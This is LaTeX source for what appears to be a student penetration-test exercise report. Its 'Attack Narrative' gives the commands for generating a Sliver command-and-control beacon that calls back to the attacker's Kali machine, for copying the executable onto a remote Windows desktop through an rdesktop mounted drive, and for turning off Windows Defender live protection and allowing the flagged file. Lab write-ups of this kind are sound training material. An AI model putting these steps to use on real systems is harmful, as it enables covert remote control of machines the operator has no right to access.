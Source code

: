 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test Exercise 0c0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Attack Narrative}

    \subsection{Beacon Generation}
    To generate a beacon, we need to use the sliver program and then use the generate command. We want the beacon to call back to the kali vm, so
    we want to use our own IP in the beacon and then insert the executable into the remote desktop.
    
    \begin{verbatim}
ip a
sliver
generate beacon --mtls 172.70.184.3 --save ~/sliver.exe
    \end{verbatim}
    
    We then want to move this to a temp folder and use this folder as the mounted directory for the desktop

    \begin{verbatim}
mktemp -d
mv sliver.exe /tmp/<tmp>
rdesktop innerouter.artstailor.com -r disk:win32=/tmp/<tmp>/
    \end{verbatim}
    
    \subsection{Windows Task}
    We can attempt to run the program on the windows machine, but we need to make sure to disable live virus protection and also make sure to click on 
    the popup when we run the executable to allow the process to stay on the machine and not be scanned next time. To do this, we do the following

    \begin{verbatim}
Privacy Privacy & Security →  Windows Security →  Protection Areas →  
Virus & Threat Protection →  Under Current Threads → 
Protection History → Find executable click allow
    \end{verbatim}
\end{document}
